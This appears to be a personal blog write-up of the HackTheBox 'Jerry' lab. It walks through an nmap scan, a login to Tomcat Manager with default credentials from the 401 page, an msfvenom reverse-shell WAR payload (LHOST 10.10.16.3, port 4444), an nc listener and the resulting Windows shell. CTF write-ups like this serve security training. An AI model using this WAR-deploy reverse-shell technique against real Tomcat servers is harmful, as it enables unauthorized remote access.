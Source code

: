 ```yaml
---
layout: page
title: Jerry
description: Jerry from HackTheBox.
img: 
importance: 4
category: HackTheBox
related_publications: false
---
```


<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/jerry/logo.png" title="HTB Jerry Logo" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
<h2>Link</h2>
<a href="https://app.hackthebox.com/Popcorn/Jerry">Room Link</a>

<br/>
<h2>Process</h2>

<br/>
Jerry! Jerry! Jerry!

Get all the open ports with nmap.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ sudo nmap -sC -sV -A -O -oN nmap 10.10.10.95                    
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 18:25 AEDT
Nmap scan report for 10.10.10.95
Host is up (0.017s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   20.26 ms 10.10.16.1
2   20.31 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds
```
{% endraw %}

<br />
Navigate to the web server running on 8080.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/tomcat.png" title="Check the Web Server" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Click on Manager App and try logging in with the prompt that appears.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/logintest.png" title="Test the Login" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Read the 401 page and the the credentials that are listed in the example user.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/unauth.png" title="401 Unauthorized" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Login with the credentials from the error page.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/tomcatlanding.png" title="Tomcat Landing Page" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Notice the section of the page to deploy a Java war secion.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/deploywarsection.png" title="War Deploy Section" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Use msfvenom to generate a war exploit.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=4444 -f war -o shell.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52154 bytes
Saved as: shell.war
```
{% endraw %}

<br />
Unzip the war and note the name of the jsp file.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ unzip shell.war                           
Archive:  shell.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: WEB-INF/
  inflating: WEB-INF/web.xml         
  inflating: zwqjmwevu.jsp           
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ ls
META-INF  WEB-INF  nmap  shell.war  zwqjmwevu.jsp
```
{% endraw %}

<br />
Start a listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ nc -nlvp 4444                          
listening on [any] 4444 ...
```
{% endraw %}

<br />
Click Browse and in the dialog box double-click on the war file.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/dblclkwar.png" title="Choose war file" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Click the deploy button.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/deploy.png" title="Deploy the War" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Navigate to the war file and the to the jsp file that we noted earlier.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/jerry/jsp.png" title="Navigate to JSP" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ nc -nlvp 4444                          
listening on [any] 4444 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```
{% endraw %}

<br />

{% raw %}
```sh
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
<redacted>

root.txt
<redacted>
C:\Users\Administrator\Desktop\flags>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{4C9FEAFE-6811-4938-BFB6-5A3280613EF9}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
```
{% endraw %}

<br />
And with that, another one bites the dust.